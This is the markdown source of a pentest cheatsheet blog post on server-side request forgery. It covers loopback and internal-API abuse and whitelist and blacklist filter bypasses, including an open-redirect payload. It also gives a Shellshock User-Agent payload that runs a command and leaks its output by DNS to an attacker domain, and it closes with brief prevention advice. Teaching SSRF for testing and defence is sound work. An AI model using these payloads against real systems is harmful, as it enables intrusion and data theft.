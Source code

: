 ```yaml
---
title: "SSRF attack"
subtitle: ""
draft: false
author: "Hato0"
description: "SSRF cheatsheet"

tags: ["web", "penetest", "ssrf"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Server-side request forgery

In a Server-Side Request Forgery (SSRF) attack, the attacker can abuse functionality on the server to read or update internal resources. 

The attacker can supply or modify a URL which the code running on the server will read or submit data to, and by carefully selecting the URLs, the attacker may be able to read server configuration such as AWS metadata, connect to internal services like http enabled databases or perform post requests towards internal services which are not intended to be exposed.

![alt Server-Side Request Forgery](https://www.vaadata.com/blog/wp-content/uploads/2018/05/SSRF-EN.jpg)

## Basics
- Local server

	This attack can be perform thanks to the loopback interface. Basicly you will have to find a parameter that fetch or possibly fetch an URL and loopback on the server himself to request the api or whatever. 
	
	For example with the website `fanOfNothing.com`, on the page `store`, the search engine included will pass your search to the api using the following post request : `searchFor=fanOfNothing.com:8008/api/search`. So your way to access what you want to is to change the `fanOfNothing.com:8008/api/search` to for example `fanOfNothing.com/admin`. In that way the result will be the admin page and not the initial response
	
	
- Against another back-end system

	Basicly the same, just scan for internal APIs and then fuzz endpoint and get result on the search thing

## Bypassing filters

- SSRF with blacklist-based input filter

	Basicly for this you will need imagination and a good understanding of what you have in front of you. For example if 127.0.0.1 is block you can replace it by 127.1 you can double url encode strings, etc ... 
	
	
- SSRF with whitelist-based input filter

	This one is very well explained by portswigger so here is the essentials.
	
	To bypass whitelisting you can use thse following techniques :
	-   You can embed credentials in a URL before the hostname, using the `@` character. For example: `https://expected-host@evil-host`.
	-   You can use the `#` character to indicate a URL fragment. For example: `https://evil-host#expected-host`.
	-   You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example: `https://expected-host.evil-host`.
	-   You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
	-   You can use combinations of these techniques together.


- SSRF with filter bypass via open redirection vulnerability

	Same as the previous ones. Here is a payload example :
	`param=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://INTERNAL_IP/WHATEVER`


## Blind exploitation
- Blind SSRF with out-of-band detection

	Easiest blind attack to perform. If you just want to see if SSRF is a thing on the site, bounce back on your domain / IP and tcpdump to check incoming traffic. 
	
	
- Blind SSRF with Shellshock exploitation

	This will principally lead to RCE, you can set the following payload (`() { :; }; /usr/bin/nslookup $(COMMAND).YOUR_DOMAIN`) on the Web agent field and exploit the SSRF as indicate in previous setps

## How to prevent them 

You have several way to implement a protection for this type of attack. Here are some of them :	

-	Input validation (regex, whitelist, ...)
-	If you are using .NET, it can be expose to hex, dword, octal and mixed encoding
-	Ensure that the domain is a trusted and valid one
-	Configure a firewall to explicitly set legitimate flows
-	....
